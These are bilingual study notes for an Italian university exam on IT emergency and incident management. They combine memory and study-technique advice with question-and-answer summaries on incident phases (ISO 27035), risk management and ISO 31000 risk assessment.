# APPUNTI DI STUDIO COMPLETI: LABORATORIO DI GESTIONE DELL'EMERGENZA

> **Source:** RECAP LGE.pptx: the professor's 60 questions + answers
> **Exam:** 3 questions from these 60 RECAP + 1 practical test from the 6 labs. That is it. Nothing else.

---

## STUDY ORDER: What to study first

> **The professor asks ONLY: 60 RECAP questions + 1 of the 6 labs. Focus exclusively on these.**

| Priority | What | Where | Time |
|----------|------|-------|------|
| **1** | 60 RECAP questions (theory: Blocchi 1-9) | Below | 6 hours |
| **2** | 6 LABS (tools, procedures) | LAB section at the end | 2 hours |

### 3-Day Plan:

| Day | Study |
|-----|-------|
| **1** | Blocchi 1-3 (Emergency, ISO 31000, ISO 27005, RMP, DR) + Lab 1, 2 |
| **2** | Blocchi 4-6 (Threat Intel, Digital Forensic, Triage) + Lab 3, 4 |
| **3** | Blocchi 7-9 (Artifacts, Network, Persistence) + Lab 5, 6 + review |

---

## COME STUDIARE MEGLIO: Metodo scientifico per questo esame

> Based on "Ace That Test" (The Learning Scientists) and COME_STUDIARE.md: evidence-based strategies, adapted for weak memory, low dopamine, and brain fog.

This exam is **ORAL (3 questions from the 60 RECAP)** + **PRACTICAL (1 of the 6 labs chosen by the professor)**. Only these. Nothing else. No notes allowed. You must be able to SPEAK ALOUD. Here is how to REALLY prepare.

---

### RULE ZERO: NEVER STUDY IN SILENCE (for all 60 questions and 6 labs)

Silent reading DOES NOT WORK for your brain. Information disappears in 10 seconds. You MUST ALWAYS:

1. Read the question **OUT LOUD**
2. Close your eyes
3. Answer **WITHOUT LOOKING**

Why it works: when you speak, your brain processes the information TWICE (once to produce it, once to hear it). You cannot zone out while talking. Your mouth remembers even when your brain forgets.

**If you are too tired to speak:** use text-to-speech (Speechify, NaturalReader) but MOVE YOUR LIPS along with the voice. The throat vibration counts as "speaking." Not optimal, but better than reading silently.

**On total brain fog days:** switch to PASSIVE mode. AI voice reads the notes. You follow with your eyes. Do not try to repeat. Do not feel guilty. Passive exposure is not zero: sleep will process something anyway.

---

### HOW TO STUDY EACH QUESTION (1-60): The 5-step method

For EVERY question, apply these 5 steps. Never skip step 3: that is where real learning happens.

| Step | What to do | Time | Why |
|------|-----------|------|-----|
| **1. Isolate** | Cover everything except ONE question with a sheet of paper. See only that one. | 10 sec | Working memory holds 1-2 concepts. The whole page = overload = fog. |
| **2. Read aloud + simplify** | Read the question and answer OUT LOUD. Then say it IN YOUR OWN WORDS, like to a 10-year-old. | 2 min | If you cannot simplify, you did NOT understand. Go back. |
| **3. Close and recall** | Close the notes. Stand up. Walk. Answer OUT LOUD. If stuck, do NOT look immediately: struggle for 10 seconds. The pain of not remembering IS the moment you learn. | 2 min | Pure Retrieval Practice. Strengthens the neural pathway. |
| **4. Write 1 sentence** | On a blank sheet, write ONE sentence: what you just said. Do NOT copy. Write from memory. | 1 min | Externalize working memory. The paper is your extended brain. |
| **5. Repeat after 10 minutes** | After 10 minutes, look at YOUR sentence. Still remember it? If not, redo from step 2. | 1 min | First transfer from short-term → long-term memory. Critical. |

---

### THE "I DON'T UNDERSTAND ANYTHING" PROTOCOL: When your brain is total fog

> **For when even Step 2 (read aloud + simplify) fails. Do NOT stay stuck. Use this ladder.**



| Gradient | What to do | Time | Why it works |
|----------|-----------|------|-------------|
| **1. Read aloud 3x** | Read the sentence aloud three times. Just the sounds. No pressure to understand. | 1 min | Your auditory loop processes sounds even when semantics fail. Builds procedural familiarity. |
| **2. Copy by hand** | Copy the sentence word for word on paper. Look at the text. Just copy. | 2 min | Hand movement engages procedural memory. Slows you down so words register individually. |
| **3. Find the unknown word** | There is always ONE word blocking you. Find it. Look it up. Read the definition aloud. | 2 min | Comprehension fails at the FIRST unknown word. Fix that one, the rest unlocks. |
| **4. Replace hard words** | Rewrite the sentence using ONLY words you already know. "Binary linear classifier" → "Machine that says yes or no." | 3 min | Understanding = translation into your own words. If you can't translate, you don't own it yet. |
| **5. Draw it** | Draw the concept. Rectangle. Arrow. Stickman. Does not need to be good. Needs to be YOURS. | 3 min | Converts abstract → concrete. Bypasses verbal working memory. Uses visual-spatial channel. |
| **Post-it + Sleep** | Write "TO UNDERSTAND: [concept]" on a post-it. Stick it visible. Move on. Sleep. Try tomorrow. | 10 sec | Your brain processes unsolved problems during REM sleep. Many students understand concepts the NEXT DAY that made zero sense the night before. Moving on is NOT giving up: it is trusting your brain's offline processing. |

> **The key insight:** Sometimes your brain just needs TIME and SLEEP to process a concept. The post-it is not failure: it is a bookmark for your unconscious mind. Never stay stuck on one question for more than 10 minutes. Frustration destroys dopamine. Sleep builds understanding.

---

### THE RECALL SCHEDULE: When to review so you do NOT forget

Your brain forgets faster than normal. The forgetting curve is steeper. You must review MORE OFTEN in the first 24 hours.

| When | What to do | Duration |
|------|-----------|----------|
| **Immediately** | Close and repeat aloud (step 3) | 30 sec |
| **+1 hour** | Re-read YOUR sentence. Remember it? Say it aloud again. | 2 min |
| **+3 hours** | Repeat the concept while walking or washing dishes. | 1 min |
| **Before sleep** | Review ALL sentences written today. Read them aloud. | 5 min |
| **Next day** | Can you explain each sentence without looking? | 5 min |
| **+3 days** | Quick vocal recall. | 3 min |
| **+1 week** | 2-minute check. If OK → in long-term memory. | 2 min |

> The first 4 recalls (immediate, 1h, 3h, before sleep) are NON-NEGOTIABLE. They are the difference between remembering for 1 day or for 1 year.

---

### ORAL EXAM STRATEGY: How to answer the professor

The oral exam is NOT a short-answer quiz. The professor evaluates whether you can CONNECT concepts. Here is the format for EVERY answer:

**The 3-sentence rule (for EVERY question):**
1. **What it is**: definition in 1 sentence. "ISO 27035 is the standard for information security incident management."
2. **How it works**: mechanism in 2 sentences. "It defines 5 phases: Preparation, Identification, Assessment, Response, Learning. It is a continuous cycle: Learning feeds back into Preparation."
3. **Why it connects to...**: 1 connection. "It connects to Digital Forensic (Q29) because during the Learning phase you use forensic evidence to understand what happened. And it connects to Risk Management (Q5) because Preparation exists to prevent incidents."

**Oral exam techniques:**

- **Mirror:** Practice in front of a mirror. Explain a concept. Watch your face. If you look confused, the professor will see it. Practice until you look calm.
- **Trigger-action:** For each question, pick ONE trigger word. "When the professor says 'ISO 27035,' I say: 5 phases, continuous cycle, preparation-identification-assessment-response-learning."
- **Pause, do not panic:** Silence between sentences is NOT failure. It makes you look thoughtful. 2 seconds of pause before answering = "I am thinking." 5 seconds = "I do not know." Learn the difference.
- **If you do not know:** "Professor, I do not have the precise answer but I can reason through it: [connect to something you know]." Never just say "I do not know" and stop. Hook into something.
- **If you forget a term:** Describe the concept in simple words. Then say: "The technical term is [X]." Points for BOTH: understanding + terminology.
- **Breathe:** 4 seconds in, 4 hold, 4 out. Under the desk. No one sees. Heart rate drops. Brain gets oxygen.

---

### LAB STRATEGY: How to prepare for the practical test

The lab is NOT theory. It is knowing HOW TO DO. The professor puts you in front of the computer and says "analyze this .pcap" or "find the malware in this RAM."

**The 4-step method for EVERY lab:**

| Step | What to do | Why |
|------|-----------|-----|
| **1. Read the procedure ONCE aloud** | 5 minutes. No more. | Build the mental framework. |
| **2. Write the steps BY HAND, FROM MEMORY** | Number the steps. One action per line. Do NOT copy. | Build procedural memory. Your fingers learn. |
| **3. Simulate the lab OUT LOUD** | Walk and explain: "First I open Wireshark. Then I go to Statistics > Summary. Then I filter for http..." | During the exam you must EXPLAIN while doing. Clicking is not enough. |
| **4. Predict what you will find** | For each step, say: "I expect to find X because Y." | If your prediction is wrong, you learn twice as much. |

**During the lab exam:**
- After each command, explain WHY you did it. "I filter for POST because exfiltration uses POST to send data."
- If something does not work: "I am getting an unexpected result. This could indicate [hypothesis]. I will verify with [next step]."
- Do NOT panic if Wireshark/Volatility/Autopsy does not open. Say: "Tool X is not responding. I would use [alternative tool]. The investigative logic is the same: [explain the logic]."

---

### The 6 SCIENTIFIC STRATEGIES (how to apply them NOW)

| # | Strategy | How to apply it to this exam |
|---|----------|------------------------------|
| 1 | **Retrieval Practice** | Cover the answer, read only the question, ANSWER OUT LOUD. Then check. Every question from 1 to 60 is formatted for this. |
| 2 | **Spaced Practice** | Follow the recall schedule: immediate → 1h → 3h → bedtime → next day → 3 days → 1 week. Do not cram everything into one day. |
| 3 | **Elaboration** | Every question has "In pratica" (real example), "Collegamento" (connection) and "Perche" (why). Use them to build the 3-sentence rule for the oral exam. |
| 4 | **Dual Coding** | Every block has a Mermaid diagram. Draw it by hand on a blank sheet BEFORE looking at it. Then compare. |
| 5 | **Concrete Examples** | Every "In pratica" is a real example. Invent your OWN even sillier one. "ISO 27035 is like an emergency room: triage (identify), examination (assess), treatment (respond), discharge (learn)." |
| 6 | **Interleaving** | Do NOT study blocks in order 1-2-3. Mix: Question 1, then Question 30, then Lab 1, then Question 15. The brain learns to DISTINGUISH concepts. |

---

### THE 3-PASS SYSTEM: For when you read and forget the next second

> **This is for your SHORT-TERM MEMORY collapse. Three passes on the same material from three angles. Your brain CANNOT not retain at least some of it. Use this on the 60 questions.**



**How to apply this to the 60 questions:**

| Pass | What you do | With these notes | Time |
|------|------------|-----------------|------|
| **Pass 1: Micro** | Read the question ONLY (cover the answer with paper). Read it aloud. Close eyes. Say what you remember. THEN uncover and check. | Use only the question line (the bold text). Cover everything below it with a sheet of paper. | 1 min each |
| **Pass 2: Cluster** | After 5 questions, close everything. Say all 5 answers aloud, in order. If you miss one, mark it with a dot • in the margin. Redo those tomorrow. | Use the PASS 2 CHECK prompts in these notes (they appear after every 5 questions). | 3 min |
| **Pass 3: Panoramic** | After the whole block, read every question title aloud. For each, answer WITHOUT looking. Questions you can't answer → redo Pass 1 for those tomorrow. | Use the PASS 3 PANORAMIC CHECK at the end of each block. | 5 min |

> **The "One More Time" Rule:** If you finish a block and remember NOTHING: do it ONE more time. Not five more times. ONE. Your brain learns on the SECOND pass, not the fifth. The fifth is just frustration and dopamine depletion. One more. Then move on. Trust that something stuck: it did.

> **These notes have built-in PASS 2 and PASS 3 prompts.** Look for `>> PASS 2 CHECK` and `>> PASS 3 PANORAMIC CHECK` markers. They tell you exactly when to stop and recall.

---

### The 3 THINGS TO AVOID (science says they do NOT work)

| What NOT to do | Why it does not work |
|----------------|---------------------|
| **Passive re-reading** | Gives you the ILLUSION of knowing. You are not strengthening memory. |
| **Highlighting/underlining** | Does not require mental processing. It is motor activity, not cognitive. |
| **Cramming (intense study the night before)** | You might pass, but forget everything in 48 hours. In an oral exam, it shows. For YOU, with weak memory, cramming = near certainty of mental blank. |

---

### THE "TERRIBLE DAY" PROTOCOL: What to do when your brain does not work

Not all days are equal. Some days the brain fog is too thick. Do not fight it: use the right level.

| Level | How you feel | What to do |
|-------|-------------|------------|
| GREEN | OK, I can think | Full 5-step method. New material. Recall schedule. |
| YELLOW | Moderate fog, tired | VOICE ONLY. Read aloud, repeat orally. NO writing. Only review of previously seen material. |
| RED | Total fog, cannot connect | PASSIVE LISTENING ONLY. AI voice reads. Follow with eyes. Do not try to repeat. Zero guilt. |

A RED day is NOT a wasted day. It is a day you did what your brain could handle. Guilt destroys dopamine. Acceptance preserves it.

---

### DOPAMINE: How to tell your brain that studying matters

With low dopamine, your brain does not tag memories as "important." You must create artificial rewards:

- **After every 5 questions completed:** 1 square of dark chocolate (70%+). Stimulates natural dopamine.
- **After 3 complete cycles:** 2 minutes of a song you LOVE. Dance. Move.
- **End of day: Dopamine Journal:** Write 3 things you NOW KNOW that you did NOT know yesterday. NOT 3 things you studied. 3 things you LEARNED.

---

### Prepare BODY and ENVIRONMENT

- **10 minutes of walking before studying**: exercise increases BDNF, the "brain fertilizer." More important than coffee.
- **Sleep 8 hours**: during REM sleep the brain CONSOLIDATES memories from hippocampus to cortex. Studying without sleeping = writing on a whiteboard and turning off the computer before saving.
- **No phone in bed**: blue light destroys sleep quality. No screens for 30 minutes before sleeping.
- **Study without distractions**: notifications off, phone in another room. Multitasking is a MYTH.
- **Drink water every 10 minutes**: 1.5L bottle on the desk. Thirst is already mild dehydration. Dehydration = brain fog.
- **Never study right after eating**: wait 30 minutes. Blood goes to the stomach, not the brain.
- **No caffeine or energy drinks**: anxiety + caffeine = disaster. Water or decaf tea.
- **Study standing or walking**: the brain works better in motion. Put the book on a high shelf.
- **Background: brown noise** (not music, not white noise). YouTube: "brown noise for studying."

---

### DAILY ROUTINE (2 weeks before the exam)

| Week | Morning (1 hour) | Afternoon (1 hour) | Evening (10 min) |
|------|------------------|--------------------|------------------|
| Week 1 | 10 theory questions (Retrieval aloud) | 1 lab to simulate aloud (steps 1-4) | Bedtime recall: review the day's sentences |
| Week 1 (next day) | 10 different questions + recall 3 previous ones | 1 different lab | Bedtime recall |
| Week 2 | Mix 15 questions from different blocks (Interleaving) | 2 labs per day, full simulation | Bedtime recall |
| Week 2 (next day) | Simulate exam: pick 3 random questions + 1 lab | Targeted review of what you do NOT know | Bedtime recall + 4-4-4-4 breathing |

---

## BLOCCO 1: EMERGENZA E INCIDENTE (Domande 1-5)

> ** STEP ZERO: 30-SECOND PREVIEW (DO NOT SKIP):** This block covers 5 questions: what an emergency is (Q1), physical vs logical emergencies (Q2), the 5 phases of incident management: ISO 27035 (Q3), the difference between management and response (Q4), and the goal of Risk Management: prevent, mitigate, transfer (Q5). **Say aloud:** "Block 1 is about emergencies, incidents, ISO 27035, and Risk Management." **Now your brain has a shelf. Details will stick.**

> ** PRE-SESSION CHECKLIST:**  10 min walk done?   Water bottle full (1.5L)?   Phone in another room?   Brown noise playing?   30-second preview done?   Cover everything except Q1 with a sheet of paper. See only that one. START.



**1) Cosa e' un'emergenza, in particolare in ambito informatico?**
Un momento critico che richiede un intervento immediato. In ambito informatico puo' essere un'interruzione parziale o totale della disponibilita' di un sistema, di informazioni o di dati. Parziale = alcuni servizi bloccati. Totale = tutto fermo (es. ransomware).

> **In pratica:** Nel 2017 il ransomware NotPetya colpi' Maersk (il colosso mondiale delle spedizioni). Non fu un'emergenza parziale: 4.000 server, 45.000 PC e l'INTERO sistema di prenotazione container furono cifrati in 7 minuti. Fu un'emergenza TOTALE. L'azienda sopravvisse solo perche' aveva un backup offline in Ghana che il ransomware non raggiunse.

> **Collegamento:** Q2 distingue emergenza FISICA da LOGICA: il tipo di emergenza determina la risposta. Q3 spiega le 5 fasi per gestirla (ISO 27035). Q4 distingue chi GESTISCE da chi RISPONDE. Q5 mostra come il Risk Management cerca di PREVENIRE tutto questo.

> ** CHIUDI GLI OCCHI. RIPETI:** "Un'emergenza informatica e' un momento critico. Puo' essere parziale o totale. Esempio: NotPetya ha fermato Maersk in 7 minuti." *(ASPETTA 10 SECONDI prima di guardare se ti blocchi.)*

**2) In ambito informatico, in che modi puo' presentarsi un'emergenza?**
FISICA: calamita' naturale, incendio, furto, guasto hardware. LOGICA: attacco informatico, cancellazione accidentale di dati, mancato backup. La distinzione e' importante perche' il tipo determina la risposta.

> **In pratica:** Nel 2021 un incendio nel data center OVHcloud di Strasburgo distrusse 3.600 server di 12.000 clienti (emergenza FISICA). Nello stesso anno, l'attacco SolarWinds compromise 18.000 organizzazioni tramite un aggiornamento software infetto (emergenza LOGICA). Il primo richiese nuovi server e disaster recovery. Il secondo richiese analisi forense e caccia al malware. Due mondi completamente diversi.

> **Collegamento:** Q1 definisce il concetto generale di emergenza. Q3 ti da' il METODO per gestire entrambi i tipi (fisica e logica). Q4 spiega che per un'emergenza fisica serve una risposta logistica, per una logica serve una risposta tecnica. Il DR (Q20) si occupa principalmente di emergenze fisiche, la Digital Forensic (Q29) di quelle logiche.

> ** CHIUDI GLI OCCHI. RIPETI:** "Due tipi: FISICA (incendio, furto, guasto) e LOGICA (attacco, cancellazione dati, mancato backup). Esempio: OVHcloud incendio vs SolarWinds attacco." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "in che modi si presenta un'emergenza" → ALLORA rispondi: "FISICA e LOGICA. Fisica = calamita', incendio, furto, guasto HW. Logica = attacco, cancellazione dati, mancato backup. Esempio: incendio OVHcloud (fisica) vs SolarWinds (logica)."

**3) Quali sono le fasi di gestione di un incidente?**
La ISO/IEC 27035 prevede 5 fasi in ciclo continuo: Preparazione (piano IRP), Identificazione (monitoraggio), Valutazione (gravita' e impatto), Risposta (azioni operative), Apprendimento (lezioni apprese, aggiornamento IRP).

> **Collegamento:** La Preparazione (fase 1) e' dove si applica il Risk Management (Q5): previeni PRIMA che succeda. L'Apprendimento (fase 5) e' dove la Digital Forensic (Q29) serve: analizzi le prove per capire COSA e' successo e migliorare.

> ** CHIUDI GLI OCCHI. RIPETI:** "ISO 27035: 5 fasi in ciclo: Preparazione, Identificazione, Valutazione, Risposta, Apprendimento. L'Apprendimento torna alla Preparazione." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "fasi di gestione incidente" → ALLORA rispondi: "ISO 27035: 5 fasi. Preparazione (piano IRP), Identificazione (monitoraggio), Valutazione (gravita'), Risposta (azioni), Apprendimento (lezioni). Ciclo continuo."

**4) Differenza tra Gestione e Risposta all'incidente?**
La GESTIONE e' un processo ampio e olistico: copre TUTTE le fasi, dall'inizio alla fine. La RISPOSTA e' solo UNA componente della gestione: le azioni tecniche immediate per limitare i danni. La gestione e' l'ospedale, la risposta e' il pronto soccorso.

> **In pratica:** Marzo 2024: un dipendente di un'azienda sanitaria apre un allegato phishing. Parte un ransomware che cifra le cartelle cliniche. La RISPOSTA: l'IT isola immediatamente il PC infetto, stacca la rete, blocca l'IP del C2 sul firewall. La GESTIONE: perche' l'email di phishing ha superato il filtro antispam? Perche' il dipendente non aveva fatto formazione? Chi non ha applicato la patch della VPN che l'attaccante ha sfruttato per muoversi lateralmente? L'IRP era aggiornato? Le lesson learned porteranno a nuove regole antispam, formazione obbligatoria trimestrale, e patching forzato entro 24 ore.

> **Collegamento:** Q3 elenca le 5 fasi ISO 27035: la Gestione copre TUTTE e 5 (dalla Preparazione all'Apprendimento), la Risposta e' concentrata sulla fase 4 (azioni operative immediate). Q5 (Risk Management) e' cio' che alimenta la fase 1 (Preparazione): previeni PRIMA che l'incidente accada.

> ** CHIUDI GLI OCCHI. RIPETI:** "Gestione = processo intero, come l'ospedale. Risposta = azioni immediate, come il pronto soccorso. Esempio: ransomware: Risposta isola il PC, Gestione chiede perche' il phishing e' passato." *(ASPETTA 10 SECONDI.)*

**5) Quale e' l'obiettivo del Risk Management?**
Capire come PREVENIRE possibili eventi dannosi e, quando non e' possibile, ATTENUARNE le conseguenze o TRASFERIRLE ad altri (es. polizze assicurative), in un'ottica di business continuity (continuita' del processo produttivo).

> **Collegamento:** Il Risk Management (Q5) e' la base teorica. La ISO 31000 (Q6-17) ti spiega COME si fa in pratica. Il RMP (Q19) e' il documento che formalizza tutto.

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Management = prevenire, attenuare, trasferire. Obiettivo: business continuity. ISO 31000 e' il metodo per farlo." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: BLOCCO 1 (5 domande):** Chiudi tutto. Senza guardare, rispondi a voce a queste 5 domande IN ORDINE: (1) Cosa e' un'emergenza informatica? (2) In che modi si presenta? (3) Quali sono le 5 fasi ISO 27035? (4) Differenza gestione vs risposta? (5) Obiettivo del Risk Management?: Se ne manchi una, metti un pallino • sul numero. Domani rifai quelle col pallino.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 1:** Leggi ogni titolo qui sotto a voce alta. Per ognuno, rispondi SENZA GUARDARE. Metti un • sulle domande che NON sai rispondere.
>> 1) Cosa e' un'emergenza informatica?
>> 2) In che modi puo' presentarsi un'emergenza?
>> 3) Quali sono le fasi di gestione di un incidente?
>> 4) Differenza tra Gestione e Risposta?
>> 5) Quale e' l'obiettivo del Risk Management?

> ** 5/5 COMPLETATE! PREMIO:** 1 quadratino di cioccolato fondente (70%+). Alzati. Cammina 2 minuti. Bevi acqua.

> ** INSEGNA AL MURO (Teach a Ghost):** Scegli UNA domanda del Blocco 1. Spiegala a voce alta come se parlassi a uno studente che non sa NULLA. Se ti blocchi, quel punto va rivisto. Se scorre liscio, hai CAPITO, non solo memorizzato.

---

## BLOCCO 2: ISO 31000 E RISK ASSESSMENT (Domande 6-17)

> ** STEP ZERO: 30-SECOND PREVIEW:** Questo blocco copre 12 domande: il ciclo PDCA di Deming (Q6), il contesto nella ISO 31000 (Q7), le 3 fasi del Risk Assessment: Identification/Analysis/Evaluation (Q8), cos'e' la Risk Identification (Q9), Risk Analysis qualitativa/quantitativa (Q10), Risk Evaluation e criteri (Q11), Risk Treatment Plan (Q12), likelihood vs probability (Q13), brainstorming (Q14), BIA Business Impact Analysis (Q15), SWIFT (Q16), la serie ISO 27000 (Q17). **Say aloud:** "Block 2 is about ISO 31000, Risk Assessment, and related techniques."



**6) Cosa e' il ciclo di Deming?**
Il PDCA (Plan, Do, Check, Act): pianificare, eseguire, verificare e agire. Metodo di gestione iterativo per il controllo e il miglioramento continuo dei processi.

> **In pratica:** Un team IT gestisce i backup aziendali. PLAN: decidono backup incrementale ogni ora e full ogni domenica notte su NAS Synology. DO: configurano Veeam Backup & Replication con questi parametri. CHECK: lunedi' mattina controllano i log di Veeam: il backup full e' fallito per spazio insufficiente. ACT: liberano spazio eliminando backup vecchi e aumentano la retention policy. Senza il CHECK (fase 3), avrebbero scoperto il backup fallito solo dopo un disastro.

> ** CHIUDI GLI OCCHI. RIPETI:** "PDCA = Plan, Do, Check, Act. Ciclo di Deming per miglioramento continuo. Esempio: backup: pianifichi, esegui, verifichi i log, correggi." *(ASPETTA 10 SECONDI.)*

**7) Cosa si intende per determinazione del contesto nella ISO 31000?**
Il contesto e' l'ambiente in cui l'organizzazione opera per raggiungere i suoi obiettivi. Richiede familiarita' con l'ambiente nei suoi vari aspetti, capire il processo decisionale, le parti interessate.

> **In pratica:** Un'azienda fintech che processa pagamenti deve rispettare PCI-DSS, GDPR, e normative Bankitalia. Il suo Risk Assessment e' OBBLIGATORIO per legge e viene auditato ogni anno. Una startup che vende magliette online ha molti meno vincoli normativi. Ma ENTRAMBE devono fare Risk Management: la fintech per non perdere la licenza, la startup per non fallire dopo un ransomware.

> ** CHIUDI GLI OCCHI. RIPETI:** "Contesto = ambiente, stakeholder, obiettivi, leggi. Fintech ha PCI-DSS obbligatorio, startup no: ma entrambe fanno RM." *(ASPETTA 10 SECONDI.)*

**8) Di quali fasi si compone il risk assessment?**
Risk Identification (individuare i rischi), Risk Analysis (comprendere natura e caratteristiche), Risk Evaluation (confrontare i risultati con criteri predeterminati per decidere le azioni).

> **Collegamento:** Questo e' il CUORE della ISO 31000. Identificazione -> Analisi -> Valutazione. Poi si passa al Risk Treatment (Q12). E' un flusso: non puoi valutare senza aver analizzato, non puoi analizzare senza aver identificato.

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Assessment = 3 fasi in ordine: Identification (cosa puo' andare storto), Analysis (quanto e' grave), Evaluation (cosa fare). Poi Treatment." *(ASPETTA 10 SECONDI.)*

> ** If-Then per l'esame:** SE il prof chiede "fasi del risk assessment" → ALLORA rispondi: "Tre fasi: Risk Identification (individuare i rischi), Risk Analysis (comprendere natura e caratteristiche), Risk Evaluation (confrontare con criteri per decidere). Poi Risk Treatment."

**9) Cosa si intende per Risk Identification?**
Processo che individua, riconosce e descrive i rischi che potrebbero aiutare o impedire a un'organizzazione di raggiungere i propri obiettivi.

> **In pratica:** Fai Risk Assessment per un'azienda che gestisce un portale e-learning. Identifichi rischi: (1) DDoS che butta giu' il sito durante gli esami, (2) data breach dei dati degli studenti, (3) un docente interno vende le credenziali, (4) un plugin WordPress vulnerabile. Per ognuno scrivi causa, effetto, probabilita', impatto.

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Identification = individuare, riconoscere, descrivere i rischi. Esempio: per un portale e-learning: DDoS, data breach, insider threat, plugin vulnerabile." *(ASPETTA 10 SECONDI.)*

**10) Cosa si intende per Risk Analysis?**
Processo con il quale si comprende la natura del rischio e le sue caratteristiche. Puo' essere qualitativa, semi-quantitativa o quantitativa. La ISO 31010 fornisce un catalogo di tecniche per la Risk Analysis (brainstorming, SWIFT, BIA, HAZOP, FMECA, Monte Carlo, bow-tie, ecc.).

> **In pratica:** CVSS e' un esempio di analisi semi-quantitativa reale. Ti da' un punteggio 0-10 basato su metriche oggettive: Attack Vector (Network=1.0, Physical=0.20), Attack Complexity (Low=0.77, High=0.44). Poi lo moltiplichi per l'impatto. Il risultato finale (es. 9.8 CRITICAL per Log4Shell CVE-2021-44228) ti dice ESATTAMENTE quanto e' grave. Non e' "probabilita' ALTA", e' "CVSS 9.8".

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Analysis = capire natura e caratteristiche del rischio. Qualitativa, semi-quantitativa, quantitativa. CVSS e' semi-quantitativo. ISO 31010 da' le tecniche." *(ASPETTA 10 SECONDI.)*

---

>> ** PASS 2 CHECK: PRIME 5 DOMANDE BLOCCO 2 (Q6-Q10):** Chiudi tutto. Rispondi a voce: (6) Cos'e' il ciclo PDCA? (7) Cosa e' il contesto nella ISO 31000? (8) Quali sono le fasi del risk assessment? (9) Cos'e' la Risk Identification? (10) Cos'e' la Risk Analysis?: Metti • sulle domande che sbagli.

---

**11) Cosa si intende per Risk Evaluation?**
Confronto dei risultati dell'analisi del rischio con i criteri di rischio predeterminati, al fine di capire quali azioni intraprendere.

> **In pratica:** Hai 15 rischi nel registro. Li ordini per CVSS e impatto finanziario stimato. Il CISO definisce la soglia: rischi con RPN (Risk Priority Number) > 50 vanno mitigati ENTRO 30 GIORNI. Quelli tra 20-50 entro 90 giorni. Quelli < 20 vengono accettati e monitorati. Questo e' il Risk Appetite dell'organizzazione.

> ** CHIUDI GLI OCCHI. RIPETI:** "Risk Evaluation = confronto risultati analisi con criteri predeterminati per decidere azioni. Esempio: RPN > 50 = mitigare entro 30 giorni." *(ASPETTA 10 SECONDI.)*

**12) Cosa si intende per Risk Treatment Plan?**
